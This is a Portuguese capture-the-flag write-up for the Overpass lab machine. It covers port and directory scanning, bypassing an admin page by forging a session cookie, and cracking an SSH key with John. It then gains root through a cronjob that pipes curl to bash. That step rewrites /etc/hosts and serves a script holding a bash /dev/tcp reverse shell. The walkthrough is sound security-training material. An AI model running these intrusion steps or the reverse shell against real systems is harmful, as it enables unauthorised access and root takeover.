# _**Overpass CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Também vamos fazer um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../Discovery/Web-Content/common.txt
> ```


Encontramos diversos diretórios dos quais podemos explorar  
Vamos começar  

Primeiro, <mark>/aboutus</mark>  
Temos algumas informações sobre **Overpass**  




Segundo, <mark>css</mark>  
Temos dois arquivos de código, mas não parecem ser tão relevantes  



Terceiro, <mark>/downloads</mark>  
Temos o binário de **Overpass** para diferens sistemas  
E também um link para download da linguagem Golang  



Quarto, temos <mark>/img</mark>  
Temos uma imagem .jpg, e outros dois arquivos de imagens
Vamos realizar download da .jpg e tentar com <mark>steghide</marK>, extrair algo  
>```bash
> wget [ip_address]/img/jose-fontano-pZld9PiPDno-unsplash.jpg
> ```
>```bash
> steghide extract -sf jose-fontano-pZld9PiPDno-unsplash.jpg
> ```
Não obtemos nenhum resultado infelizmente

## _**Ganhando acesso**_

Vamos continuar  
Temos por fim, o diretório <mark>/admin</mark>  



Aqui, o que podemos fazer é um ataque de força bruta com a ferramenta <mark>hydra</mark> e _username_ jose
Porém, na dica da primeira flag, não é preciso  
Devemos buscar por OWASP top 10  
No ano de 2020, o Nº1 da OWASP era BAC (_broken access control_)  
Existem algumas maneiras de se explorar:  
* Escalação de privilégios horizontal
* Escalação de privilégios vertical
* Manipulação de _tokens_
* Forçar métodos HTTP ou parâmetros ocultos

Buscando mais informações na Internet sobre BAC, temos:  
"_Explorar Broken Access Control (BAC) envolve identificar falhas nas restrições de acesso que permitem um usuário acessar recursos ou ações que não deveria_"  
Vamos tentar _**manipulação de tokens**_, mais especificamente, _cookies_  
Usando _cookie editor_ no Firefox, criamos um com nome _**SessionToken**_ e descrição qualquer  
Adicionamos ao site e damos _refresh_ na página  



Sucesso!!!
Temos uma chave RSA para login SSH  
Vamos copiar para um arquivo e quebrá-la com <mark>John</mark>
> ```bash
> echo '[chave_rsa]' > id_rsa
> ```
> ```bash
> ssh2john id_rsa > rsa.hash
> ```
> ```bash
> john -w=../wordlists/rockyou.txt rsa.hash
> ```


E temos resultado!!!  
Agora, vamos realizar login via ssh
> ```bash
> chmod 600 id_rsa
> ```
> ```bash
> ssh -i id_rsa james@[ip_address]
> ```


Login com sucesso  
Um simples ```cat``` em _users.txt_ e temos nossa primeira flag!

## _**Escalando privilégios**_
Para escalarmos privilégios, vamos começar com o comando ```sudo -l``` (segundo a dica)  
Acabou por não dar certo, precisamos da senha de _james_  
Vamos tentar de outra forma, com LinPEAS
> ```bash
> cd ../linpeas
> ```
> ```bash
> python3 -m http.server 8080
> ```
> ```bash
> wget [ip_address]:8080/linpeas.sh
> ```

Após, vamos dar permissão com ```chmod +x linpeas.sh``` e executar  
Após algum tempo analisando os resultados, temos:
* <mark>/etc/hosts</mark> é vulenrável por podermos escrever ali
* <mark>temos um cronjob executando o comando curl</mark> com permissões _root_ em overpass.thm/downloads/src/buildscript.sh | bash





O que podemos fazer:
* Primeiro, criar um diretório igual ao cronjob  
* Segundo, ligar um netcat e também um _python server_ com python3 -m http.server [port]
* Terceiro, no diretório criado, adicionar um arquivo _buildscript.sh_ com [bash -i >& /dev/tcp/[ip_address]/[port] 0>&1](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* Quarto, damos permissão de execução com ```chmod```
* Quinto, vamos alterar o arquivo <mark>/etc/hosts</mark>, especificamente, _overpass.thm_ para o nosso endereço IP, assim, quando ```curl``` for executado, buscará pelo nosso arquivo .sh



Após algum tempo, temos _root_  



E assim, obtemos a segunda flag
